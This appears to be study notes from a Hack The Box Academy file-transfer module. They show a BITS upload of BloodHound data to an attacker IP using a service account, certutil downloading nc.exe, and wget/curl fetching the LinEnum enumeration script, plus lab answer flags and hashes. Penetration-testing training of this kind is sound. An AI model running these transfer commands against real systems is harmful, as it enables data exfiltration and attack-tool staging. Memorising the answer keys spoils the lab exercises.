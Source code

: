 
##### Upload
```
PS C:\htb> Start-BitsTransfer "C:\Temp\bloodhound.zip" -Destination "http://10.10.10.132/uploads/bloodhound.zip" -TransferType Upload -ProxyUsage Override -ProxyList PROXY01:8080 -ProxyCredential INLANEFREIGHT\svc-sql
```

### Certutil


Casey Smith (@subTee) found that certutil can be used to download arbitrary files. It is available in all Windows versions and has been a very popular file transfer technique, essentially serving as Wget for Windows. However, the Antimalware Scan Interface (AMSI) currently detects this as malicious certutil usage.


##### Upload
```
C:\htb> certutil.exe -verifyctl -split -f http://10.10.10.32/nc.exe
```

## HTB Academy Question

`Note: Solution Can be found in the end of the file`

Q1: Download the file flag.txt from the web root using wget from the Pwnbox. Submit the contents of the file as your answer.
A: `b1a4ca918282fcd96004565521944a3b`

Q2: Upload the attached file named upload_win.zip to the target using the method of your choice. Once uploaded, RDP to the box, unzip the archive, and run "hasher upload_win.txt" from the command line. Submit the generated hash as your answer.
A: `f458303ea783c224c6b4e7ef7f17eb9d`


### Linux File Transfer Methods


#### Wget / cURL


Wget and cURL are installed on many Linux distributions and support uploading as well as downloading files.

```
W4H33D@htb[/htb]$ wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh -O /tmp/LinEnum.sh
```

```
W4H33D@htb[/htb]$ curl -o /tmp/LinEnum.sh https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
```

#### OpenSSL

